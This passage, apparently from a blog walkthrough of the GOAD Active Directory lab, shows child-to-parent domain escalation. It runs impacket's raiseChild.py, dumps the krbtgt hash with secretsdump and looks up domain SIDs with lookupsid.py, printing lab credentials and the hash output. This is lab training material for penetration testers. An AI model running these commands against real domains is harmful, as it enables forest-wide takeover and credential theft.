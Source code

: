 - To escalate from child to parent the simplest way is with impacket raiseChild.py script, this will do all the work for us.

```bash
raiseChild.py north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!' 
```

![trusts_domain_raisechild.png](/assets/blog/GOAD/trusts_domain_raisechild.png)

- This create a golden ticket for the forest enterprise admin.
- Log into the forest and get the target info (default administrator RID: 500)
- All the job is done with one command, if you are lazy you don't even need to understand x)

## Golden ticket + ExtraSid

- We have done the exploitation on one command with impacket raiseChild.py, now let's just do the same but step by step and create the golden ticket.
- Full explanation on the attack can be found here : [https://adsecurity.org/?p=1640](https://adsecurity.org/?p=1640)
- First dump the krbtgt of the domain we own

```bash
# dump child ntds and get krbtgt NT hash
secretsdump -just-dc-user north/krbtgt \ 
 north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11

...
krbtgt:502:aa3b435b51404eeaad3b435b51404ee:13354bc6e1b48fff8d66a2090e909b27:::
..
```

![trusts_child_dcsync_krbtgt.png](/assets/blog/GOAD/trusts_child_dcsync_krbtgt.png)

- Now get the child and parent domain SID

```bash
# dump child domain SID 
lookupsid.py  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11 0

[*] Domain SID is: S-1-5-21-638448100-4005671799-261795860

# dump parent domain SID 
lookupsid.py  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.10 0

[*] Domain SID is: S-1-5-21-1409754491-4246775990-3914137275
```
